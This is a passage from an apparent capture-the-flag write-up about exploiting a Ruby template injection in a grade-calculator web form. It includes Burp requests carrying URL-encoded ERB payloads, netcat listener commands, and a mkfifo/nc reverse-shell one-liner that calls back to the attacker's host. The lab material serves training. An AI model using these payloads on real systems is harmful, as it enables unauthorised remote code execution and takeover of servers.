 Now im going to start a listener with `nc` and send the request with burpsuite.

```
# Starting a listener
$ nc -lvnp 6969
listening on [any] 6969 ...

# Sending request with burpsuite
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 272
Origin: http://10.10.11.253
Connection: close
Referer: http://10.10.11.253/weighted-grade-calc
Upgrade-Insecure-Requests: 1

category1='print(`echo%20AHOHOK%0aecho%20$((14%2B28))%0aecho%20AHOHOK%0aecho%20AHOHOK`)%3BAHOHOK%20%3c%25%3d%20%73%79%73%74%65%6d%28%22%6e%63%20%31%30%2e%31%30%2e%31%34%2e%33%20%36%39%36%39%22%29%20%25%3e&grade1=10&weight1=100&category2=N%2FA&grade2=0&weight2=0&category3=N%2FA&grade3=0&weight3=0&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0

# Receiving connection
$ nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.253] 44030
```

### 3.2 Obtaining Access

We have Remote Code Execution so the next step is to get a reverse shell:

{% code title="Plain Text" %}
```ruby
 <%= system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.3 6969 >/tmp/f") %>
```
{% endcode %}

{% code title="URL Encoded" %}
```url
%20%3c%25%3d%20%73%79%73%74%65%6d%28%22%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%34%2e%33%20%36%39%36%39%20%3e%2f%74%6d%70%2f%66%22%29%20%25%3e
```
{% endcode %}

Repeating the same steps, starting a listener and sending the payload:

```
# starting listener with nc
─$ nc -lvnp 6969
listening on [any] 6969 ...

# Sending post request with burpsuite
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 272
Origin: http://10.10.11.253
```